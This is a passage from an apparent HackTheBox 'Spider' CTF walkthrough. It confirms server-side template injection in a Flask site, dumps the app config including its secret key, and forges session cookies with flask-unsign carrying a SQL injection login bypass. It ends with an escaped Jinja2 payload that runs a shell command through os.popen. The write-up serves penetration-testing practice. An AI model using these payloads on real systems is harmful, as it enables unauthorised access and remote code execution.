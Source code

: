 ```html


  </body>
</html>
```
Now we can see the 20 in the value field so SSTI confirmed.
#### Exploitation
We cannot try for  RCE as there is word limit for username I cannot get around that so all the best to people who wanna try it.
Now let's try to get some basic config file as we know it's running flask we can get config file with username {{config}} to get flask configuration.
Triggering SSTI we can get the following value in username field.
```bash
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>
```
Now we have the secret key of flask token so we can sign our own tokens but let's try and enumerate further.
Now let's see our cookie. For this let's use the tool called flask-unsign.
```bash
kali@kali:~/HackTheBox/Spider$ flask-unsign --decode --cookie eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6Ijc5N2E4ZTBmLTFiMjItNDcwNC05Mjk5LTRkYmMwZTEyMTg2NyJ9.YLSfJQ.Rg0ag2EgyUlC76WpNngvs3yiyvE
{'cart_items': [], 'uuid': '797a8e0f-1b22-4704-9299-4dbc0e121867'}
```
Now that we have secret token we can modify the cookie so cart_item does seem intrestring but if we can get login bypass in uuid we can be admin so let's try that first and we can always go back to cart_items later.
So let's try some basic authorization bypass on uuid in the cookie section.
```bash
kali@kali:~/HackTheBox/Spider$ flask-unsign --sign --secret Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942 --cookie "{'uuid': '\' or 1=1 #'}"
eyJ1dWlkIjoiJyBvciAxPTEgIyJ9.YLWl6g.ZkgUj1penb-UY6mYiNIdseOjhBY
```
And we have the cookie for it just open the developer tools, then go to storage tab and just replace the existing cookie with our newly generated cookie.
and you can it shows that you are login as chiv.
Now navigating around the site and fumbling at this point for a while found and under upgrade endpoint at http://spider.htb/a1836bb97e5f4ce6b3e8f25693c1a16c.unfinished.supportportal. So let's visit that endpoint.
Looks like there is a support portal that post our ticket somewhere so we can try SSTI but as we dont have any ways to verify it let's try to get the ping back.
### SSTI 2
#### Enumeration
Now let's and use one of the basic payload to get RCE from SSTI and see what error it gives us it highly unlikely that we will get a ping back but let's start from here and let's see where go.
payload	
```python
{% with a = request\["application"\]\["\\x5f\\x5fglobals\\x5f\\x5f"\]\["\\x5f\\x5fbuiltins\\x5f\\x5f"\]\["\\x5f\\x5fimport\\x5f\\x5f"\]("os")\["popen"\]("ping -c 4 <YOUR IP>")\["read"\]() %} a {% endwith %}
```
